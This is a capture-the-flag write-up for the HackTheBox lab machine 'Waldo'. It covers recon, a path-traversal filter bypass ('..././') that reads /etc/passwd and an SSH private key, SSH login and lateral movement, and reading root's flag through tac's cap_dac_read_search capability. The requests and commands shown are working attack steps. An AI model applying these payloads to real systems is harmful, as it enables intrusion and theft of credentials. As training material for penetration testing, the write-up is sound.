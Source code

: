 ---
layout: menu
title: "HTB Waldo"
description: "10.10.10.87 | 30 pts"
header-img: "boxes/screenshots/14_waldo/waldo.jpg"
tags: [hackthebox, htb, boot2root, writeup, linux, php, str_replace, ssh, private key, private key authentication, identity file, linux capabilities, capabilities, sbin, getcap, waldo]
---

:filesdir: /boxes/files/14_waldo/
:imagesdir: /boxes/screenshots/14_waldo
:page-liquid:
:source-highlighter: rouge

+++<h1 style="color:red">+++ HTB Waldo (10.10.10.87) +++</h1>+++

---

:toc: 
:toc-title: TABLE OF CONTENTS

---

== PART 1 : INITIAL RECON

____
[source,shell,subs="verbatim,quotes"]
----
$ nmap --min-rate 1000 -p- -v 10.10.10.87
  
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

$ nmap -p 22,80 -sC -sV -v 10.10.10.87

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
  |   256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
  |_  256 38:64:ac:57:56:44:d5:69:de:74:a8:88:dc:a0:b4:fd (ED25519)
  80/tcp open  http    nginx 1.12.2
  | http-methods: 
  |_  Supported Methods: GET HEAD POST
  |_http-server-header: nginx/1.12.2
  | http-title: List Manager
  |_Requested resource was /list.html
  |_http-trane-info: Problem with XML parsing of /evox/about

----
____

---

== PART 2 : PORT ENUMERATION

Opening +++<span style="color:orange">+++*`http&#58;//10.10.10.87`*+++</span>+++ brings you to a +++<span style="color:orange">+++List Manager+++</span>+++ page:

____
image::80_landing_page.png[Landing Page]
____

It exhibits the following behavior when performing the following actions:

____
.Opening the +++<span style="color:orange">+++List Manager+++</span>+++ makes a POST request to +++<span style="color:orange">+++*`dirRead.php`*+++</span>+++: 

[source,http]
----
POST /dirRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-type: application/x-www-form-urlencoded
Content-Length: 13
Connection: keep-alive
    
path=./.list/
----

.Opening a list makes a POST request to +++<span style="color:orange">+++*`fileRead.php`*+++</span>+++: 

[source,http]
----
POST /fileRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-type: application/x-www-form-urlencoded
Content-Length: 18
Connection: keep-alive

file=./.list/list1
----
____

---

## PART 3 : EXPLOITATION

Attempting to read the contents of +++<span style="color:orange">+++*`dirRead.php`*+++</span>+++ and +++<span style="color:orange">+++*`fileRead.php`*+++</span>+++ by using POST requests:

____
.+++<span style="color:orange">+++*`dirRead.php`*+++</span>+++:

HTTP Request:
[source,http]
----
POST /fileRead.php HTTP/1.1
...omitted...

file=./dirRead.php
----
HTTP Response:
[source,json]
----
{"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['path'])){\n\t\theader('Content-type: application\/json');\n\t\t$_POST['path'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);\n\t\techo json_encode(scandir(\"\/var\/www\/html\/\" . $_POST['path']));\n\t}else{\n\t\theader('Content-type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
----
____
____
.+++<span style="color:orange">+++*`fileRead.php`*+++</span>+++:

HTTP Request:
[source,http]
----
POST /fileRead.php HTTP/1.1
...omitted...

file=./fileRead.php
----
HTTP Response:
[source,json]
----
{"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
----
____

It exposes the PHP source code for both files:

____
.+++<span style="color:orange">+++*`dirRead.php`*+++</span>+++:

[source,php,subs="verbatim,quotes"]
----
<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
	if(isset($_POST['path'])){
	    header('Content-type: application/json');
	    $_POST['path'] = #str_replace( array("../", "..\""), "", $_POST['path']);#
        #echo json_encode(scandir("/var/www/html/" . $_POST['path']));#
	}else{
	    header('Content-type: application/json');
	    echo '[false]';
	}
}

----
____
____
.+++<span style="color:orange">+++*`fileRead.php`*+++</span>+++:

[source,php,subs="verbatim,quotes"]
----
<?php
 
 
if($_SERVER['REQUEST_METHOD'] === "POST"){
    $fileContent['file'] = false;
    header('Content-Type: application/json');
    if(isset($_POST['file'])){
        header('Content-Type: application/json');
        $_POST['file'] = #str_replace( array("../", "..""), "", $_POST['file']);#
        if(strpos($_POST['file'], "user.txt") === false){
                $file = #fopen("/var/www/html/" . $_POST['file'], "r");#
                $fileContent['file'] = fread($file,filesize($_POST['file']));
                fclose();
        }
    }
    echo json_encode($fileContent);
} 
----
____

From this, we could see that the base directory for the +++<span style="color:orange">+++List Manager+++</span>+++ is at *`/var/www/html`* and reading files outside the directory is prevented by converting +++<span style="color:red">+++*`../`*+++</span>+++ or +++<span style="color:red">+++*`.."`*+++</span>+++ to an empty string. This could be bypassed by instead using +++<span style="color:red">+++*`..././`*+++</span>+++ since functions like this and *`preg_replace()`* are not recursive.

____
.+++<span style="color:red">+++Now, attempting to read files outside *`/var/www/html`*+++</span>+++:

HTTP Request:
[source,http]
----
POST /fileRead.php HTTP/1.1
...omitted...

file=..././..././..././etc/passwd
----

HTTP Response:
[source,json]
----
{"file":"root:x:0:0:root:\/root:\/bin\/ash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nsync:x:5:0:sync:\/sbin:\/bin\/sync\nshutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\nhalt:x:7:0:halt:\/sbin:\/sbin\/halt\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nnews:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucppublic:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/bin\/sh\nman:x:13:15:man:\/usr\/man:\/sbin\/nologin\npostmaster:x:14:12:postmaster:\/var\/spool\/mail:\/sbin\/nologin\ncron:x:16:16:cron:\/var\/spool\/cron:\/sbin\/nologin\nftp:x:21:21::\/var\/lib\/ftp:\/sbin\/nologin\nsshd:x:22:22:sshd:\/dev\/null:\/sbin\/nologin\nat:x:25:25:at:\/var\/spool\/cron\/atjobs:\/sbin\/nologin\nsquid:x:31:31:Squid:\/var\/cache\/squid:\/sbin\/nologin\nxfs:x:33:33:X Font Server:\/etc\/X11\/fs:\/sbin\/nologin\ngames:x:35:35:games:\/usr\/games:\/sbin\/nologin\npostgres:x:70:70::\/var\/lib\/postgresql:\/bin\/sh\ncyrus:x:85:12::\/usr\/cyrus:\/sbin\/nologin\nvpopmail:x:89:89::\/var\/vpopmail:\/sbin\/nologin\nntp:x:123:123:NTP:\/var\/empty:\/sbin\/nologin\nsmmsp:x:209:209:smmsp:\/var\/spool\/mqueue:\/sbin\/nologin\nguest:x:405:100:guest:\/dev\/null:\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/home\/nobody:\/bin\/sh\nnginx:x:100:101:nginx:\/var\/lib\/nginx:\/sbin\/nologin\n"}
----

File Contents:
[source,subs="verbatim,quotes"]
----
root:x:0:0:root:/root:/bin/ash
...omitted...
operator:x:11:0:operator:/root:/bin/sh
...omitted...
postgres:x:70:70::/var/lib/postgresql:/bin/sh
...omitted...
#nobody:x:65534:65534:nobody:/home/nobody:/bin/sh#
...omitted...
----
____

---

## PART 4 : GENERATE USER SHELL

Using the ability to read local files, let's explore the user, +++<span style="color:red">+++*`nobody`*'s+++</span>+++, home directory:

____
.+++<span style="color:red">+++*`nobody`*'s home directory+++</span>+++
HTTP Request:
[source,http]
----
POST /dirRead.php HTTP/1.1
...omitted...

path=..././..././..././home/nobody/
----

HTTP Response:
[source,php,subs="verbatim,quotes"]
----
[".","..",".ash_history","##.ssh##",".viminfo","user.txt"]
----
____
____
.+++<span style="color:red">+++The *`.ssh`* directory+++</span>+++
HTTP Request:
[source,http]
----
POST /dirRead.php HTTP/1.1
...omitted...

path=..././..././..././home/nobody/.ssh/
----

HTTP Response:
[source,php,subs="verbatim,quotes"]
----
[".","..","##.monitor##","authorized_keys","known_hosts"]
----
____
____
.+++<span style="color:red">+++The *`.monitor`* file+++</span>+++
HTTP Request:
[source,http]
----
POST /fileRead.php HTTP/1.1
...omitted...

file=..././..././..././home/nobody/.ssh/.monitor
----

HTTP Response:
[source,json]
----
{"file":"-----BEGIN RSA PRIVATE KEY-----\NMIIEOGIBAAKCAQEAS7SYTDE++NHAWB9E+NN3V5T1DP1TYHC+4O8D362L5NWF6CPL\NMR4JH6N4NCCDM1ZU+QB77LI8ZOVYMBTIEY4FM07X4PQT4ZENBFQKWKOCYV1TLW6F\N87S0FZBHYAIZGRNNELLHB1IZIJPDVJUBSXG6S2CXALE14CJ+PNEIRTSYMIQ1NJCS\NDGCC\/GNPW\/AANIN4VW9KSLLQIAEDJFCHY55SCJ5162Y9+I1XZQF8E9B12WVXIRVN\NO8PLGNFJVW6SHHMPJSUE9VJAIEH+N+5XKBC8\/6PCEOWQS9UJRKNZH9T1LJQ4FX1V\NVI93DAQ3BZ3DHIIWAWAFMQZG+JSTHSWOIWR73WIDAQABAOIBADHWL\/WDMUPEW6KU\NVMZHRU3GCJUZWBET0TNEJBL\/KXNWXR9B2I0DHWFG8IJW1LCU29NV8B+EHGP+BR\/6\NPKHMFP66350XYLNSQISHHIRMOSPYDGQVST4KBCP5VBTTDGC7RZF+EQZYEQFDRKW5\N8KUNPTTMNWWLPYYJLSJMSRSN4BQYT3VRKTYKJ9IGU2RRKGXRNDCAC9EXGRUEVJ3Q\N1H+7O8KGEPMKNEOGUGEJRN69HXYHFBEJ0WLLL8WORT9YUMMOX\/05QOOBL4KQXUM7\NVXI2YWU46+QTZTMEOKJOYLCGLYXDKG5ONDFDPBW3W8O6ULVFKV467M3ZB5YE8GES\NDVA3YLECGYEA7JK51MVUGSIFF6GKXSNB\/W2CZGE9TIXBWUQWEEIG0BMQQVX2ZWWO\NV0OG0X\/IROXACP6Z9WGPIC6FHVGJD\/4BNLTR+A\/LWQWFT1B6L03XDSYAIYIWI9XR\NXSB2SLNWP56A\/5TWTPOKFDBGCQRQHVUKWSHLYFOZGQA0ZTMNV71YKH0CGYEAWSSY\NQFFDAWRVVZJP26YF\/JNZAVLCAC5HMHO7EX5ISCVCX86MHQPEYAFCECZN2DFFOPQI\NYZHZGB9N6Z01YUEKQRKNO3TA6JYJ9OJAMF8GZWVUTPZN41KSND4MWETBED4BUAH1\N\/PACW\/+\/OYSH4BWKKNVHKNW36C+WMNOAX1FWQISCGYBYW\/IMNLA3DRM3CIAA32IU\NLROTP4QGAAMXPNCSMIPAGE6CRFVHIUOZ1SFNBV189Q8ZBM4PXQGKLLOJ8B33HDQ\/\NLNN2N1WYTIYEUGA\/QMDKOPB+TUFF1A5EZZZ0UR5WLLWA5NBEALDNOYTBK1P5N4KP\NW7UYNREX6DGOBT2MD+10CQKBGGVQLYUNE20K9QSHVZTU3E9Z1RL+6LLDMZTFC3G9\N1HLMBKDTJJJ\/XAJAZUIOF4RS\/INNKJ6+QYGKFAPRXXCPF9NACLQJAZGAMXW50AQT\NRJ1BHUCZZCUGQABTPC6VYJ\/HLLLZPIC05AIEHDDVTOPK\/0WUY64FDS0VCCAYMMDR\NX\/PLAOGAS6UHBCM5TWZHTL\/HDPROFAR3QKXWZ5XVAYKB90XGIPS5CWUGCCSVWQF2\NDVVNY8GKBM\/OENWHNTLWRTEJ5QDEAM40OJ\/MWCDC6KPV1LJXRW2R5MCH9ZGBNFLA\NW0IKCBUAM5XZGU\/YSKMSCBMNMA8A5NDRWGFEFE+VGDVPARIE0RO=\N-----END RSA PRIVATE KEY-----\N"}
----
____

We get a private key which we then could use to login via SSH with the user, *`nobody`*:

____
.+++<span style="color:red">+++Fix the permissions of the private key then login+++</span>+++

[source,shell]
----
$ chmod 400 .monitor

$ ssh -i .monitor -l nobody 10.10.10.87

$ id 
  
  uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

$ cat user.txt 

  3276........................9d24
----
____

---

## PART 5 : LATERAL MOVEMENT (nobody -> monitor)

There was nothing going on much with the user, +++<span style="color:orange">+++*`nobody`*+++</span>+++, so when I re-examined the +++<span style="color:orange">+++*`.ssh`*+++</span>+++ directory, I noticed something in the +++<span style="color:orange">+++*`authorized_keys`*+++</span>+++ file:

____
.+++<span style="color:red">+++The *`authorized_keys`* file+++</span>+++:

[source,shell,subs="verbatim,quotes"]
----
$ cd ~/.ssh

$ cat authorized_keys

  ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgk
  fqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlR
  tJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbB
  VeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+a
  rOD6NJOFJY4jBHvf #monitor@waldo#
----
____

The private key, +++<span style="color:orange">+++*`.monitor`*+++</span>+++, was originally created for the user, +++<span style="color:orange">+++*`monitor`*+++</span>+++ which doesn't seem to be anywhere in this box so I tried to connect to +++<span style="color:orange">+++*`monitor@waldo`*+++</span>+++ from within the current shell using SSH.

____
.+++<span style="color:red">+++The *`authorized_keys`* file+++</span>+++:

[source,shell]
----
$ ssh -i ~/.ssh/.monitor monitor@waldo -t sh

$ id

  uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)
----
____

I used the *`-t`* option to force an inactive shell from the connection.

---

## PART 6 : PRIVILEGE ESCALATION (monitor -> root)

Enumerating the system:

____
.+++<span style="color:red">+++The *`~/bin`* directory+++</span>+++:

[source,shell,subs="verbatim,quotes"]
----
$ ls -l

  drwxrwx--- 3 app-dev monitor 4096 May  3  2018 app-dev
  dr-xr-x--- 2 root    monitor 4096 May  3  2018 #bin#

$ ls -lA ~/bin

  lrwxrwxrwx 1 root root  7 May  3  2018 ls -> /bin/ls
  lrwxrwxrwx 1 root root 13 May  3  2018 most -> /usr/bin/most
  lrwxrwxrwx 1 root root  7 May  3  2018 red -> /bin/ed
  lrwxrwxrwx 1 root root  9 May  3  2018 rnano -> /bin/nano

----
____

The files are symbolically linked to the *`/bin`* and *`/usr/bin`* directories so they must be standard binaries but maybe they can do much more:

____
.+++<span style="color:red">+++Binary capabilities+++</span>+++:

[source,shell,subs="verbatim,quotes"]
----
$ getcap ~/bin/*

  sh: 8: getcap: not found

$ find / -name getcap 2>/dev/null

  /sbin/getcap

$ /sbin/getcap ~/bin/*

$ /sbin/getcap /usr/bin/*

  /usr/bin/tac = #cap_dac_read_search+ei#

----
____

The binay, +++<span style="color:orange">+++*`/usr/bin/tac`*+++</span>+++, has the linux capability, +++<span style="color:orange">+++*`cap_dac_read_search`*+++</span>+++ which means it could bypass file read permissions (execute permissions are also bypassed for directories) while +++<span style="color:orange">+++*`+ei`*+++</span>+++ means that the capability is effective and inheritable.

____
.+++<span style="color:red">+++Reading *`root.txt`*+++</span>+++:

[source,shell,subs="verbatim,quote"]
----
$ tac /root/root.txt

  8fb6........................4f6c

----
____
